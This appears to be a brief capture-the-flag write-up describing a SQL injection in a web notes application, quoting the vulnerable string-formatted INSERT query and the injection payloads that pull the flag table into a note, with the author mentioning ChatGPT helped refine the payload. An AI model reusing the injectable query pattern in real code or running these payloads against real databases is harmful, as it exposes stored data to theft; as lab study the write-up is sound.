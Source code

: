 amazing login screen =)
![image](https://github.com/user-attachments/assets/be44f04d-ce13-4da5-b37b-0e2cfc570424)

The code does start of by creating 3 tables which one contains the flags, there are also no other users being created  so i guess no point hitting admin ?

![image](https://github.com/user-attachments/assets/3cae52a7-aeae-4dfc-a332-cbc63fc35173)


this is the sql function that inserts the note written in the data base.
Choosing this as the focus point as it seems the most exposed
```
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```


```
select* from flag'),('ayane','flag
```

this query works..
but the reflected results are :

> select* from flag
> 
> flag


After some modifications and meaninful discussions with chat gpt, the payload was born
```
fauna'),(('ayane',(select * from flag)),('ayane','onichan
```

AND THERE WE GO 

![image](https://github.com/user-attachments/assets/3ddfe550-42fd-4313-af15-88ffeb5b77d7)


file:///home/mire/Pictures/Screenshots/Screenshot%20from%202024-12-30%2011-15-54.png
